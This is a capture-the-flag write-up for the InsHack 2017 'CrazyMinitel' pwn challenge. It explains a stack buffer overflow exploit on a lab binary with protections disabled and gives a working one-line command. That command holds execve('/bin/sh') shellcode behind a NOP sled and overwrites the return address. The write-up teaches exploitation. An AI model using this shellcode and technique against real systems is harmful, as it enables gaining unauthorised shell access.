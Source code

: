 ```yaml
---
title: "CrazyMinitel | InsHack 2017"
categories: ["pwn"]
tags: ["stack overflow", "shellcode"]
points: 125
solves: 77
---
```


Today we will solve a simple pwnable challenge by inserting shellcode on the stack with a nop sled, and then jumping to it.

## Checksec
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled       (<- we CAN use shellcode)
PIE:      No PIE
ASLR:     DISABLED          (<- we CAN realiably know where the stack is)
```

## Solution
The program just echos the input. If the input is large enough the buffer is overflowed, so, since we can use shellcode lets just return to our buffer in the stack and run `execve("/bin/sh", NULL, NULL)`.

We can reliably return to our buffer because we can first get its location in gdb and we know it won't change since ASLR is disabled. The address can change slightly since environment variables are stored on the stack and if for example you change directory, $PWD will have a different value and shift the stack around.

To bypass this we can use a `nop sled`. A nop sled is just a bunch of `nop`s (the assembly instruction for no operation, aka does nothing), making it possible to jump anywhere in the nop sled range and execute our shellcode regardless of jumping perfectly to the start of our shellcode or anywhere in the middle of the `nop`s.

The solution is simply:
 - Send `nop..nop..nop...shellcode` for a total length of 230
 - Send `A`'s to pad until we get to the point on the stack where we are about to overwrite the saved `eip`
 - Overwrite the saved `eip` with a value pointing to somewhere in the middle of the nops (find this in gdb). In this case it was `0xbffffaa0`. We write it as `\xa0\xfa\xff\xbf` because the bytes are stored in little endian

```
./vuln $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'.rjust(230,'\x90') + 'A'*(268-230) + '\xa0\xfa\xff\xbf'")
```